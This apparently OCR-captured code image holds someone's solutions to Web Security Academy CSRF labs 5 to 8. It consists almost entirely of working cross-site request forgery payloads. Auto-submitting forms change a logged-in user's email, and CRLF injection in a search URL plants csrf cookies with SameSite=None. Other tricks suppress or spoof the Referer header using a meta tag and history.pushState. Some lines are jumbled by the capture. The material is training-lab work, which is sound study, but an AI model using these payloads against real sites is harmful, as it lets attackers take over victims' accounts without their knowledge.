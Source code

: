         <script>

                document.forms[0].submit();

        </script>

    CSRF LAB5

<form method="POST" action="https://0a18008904d64dd0c338757a00270089.web-security-academy.net/my-account/change-email">
        	<input type="hidden" name="email" value="kid@kidman.kid.br">
        	<input type="hidden" name="csrf" value="hmNAZ5GHPHNw7T7fHuc3eba6nGBaVknu">
    	</form>
<img src="https://0a18008904d64dd0c338757a00270089.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=TDcgns5vi8aJjAqXOsDfu9udCfoLvdL3%3b%20SameSite=None" onerror="document.forms[0].submit()">

    CSRF LAB6

<form method="POST" action="https://0a25002904fc7dfcc17f215600630070.web-security-academy.net/my-account/change-email">
            <input type="hidden" name="email" value="kid@kidman.kid.br">
                <input type="hidden" name="csrf" value="7S5ZIQfr50AQPsFvDLXG4OTKKtHRnRTY">
        </form>
<img src="https://0a25002904fc7dfcc17f215600630070.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=7S5ZIQfr50AQPsFvDLXG4OTKKtHRnRTY%3b%20SameSite=None" onerror="document.forms[0].submit();"/>


    CSRF LAB7

        <form method="POST" action="https://0a7200340367a450c0021d8300b20002.web-security-academy.net/my-account/change-email">
            <input type="hidden" name="email" value="kid@kidman.net.br">
        </form>
        <meta name="referrer" content="no-referrer">
        <script>
                document.forms[0].submit();
        </script>

 

    CSRF LAB8
      
    <head>
    HTTP/1.1 200 OK
    Content-Type: text/html; charset=utf-8
    Referrer-Policy: unsafe-url
    </head>
    <form method="POST" action="https://0a6100f003c532abc6d37b570096003a.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="kid@kidman.com.br">
    </form>
       Referer: https://arbitrary-incorrect-domain.net?https://0a6100f003c532abc6d37b570096003a.web-security-academy.net
    <script>
       history.pushState("", "", "/?https://0a6100f003c532abc6d37b570096003a.web-security-academy.net/")
           		 document.forms[0].submit();
    </script>
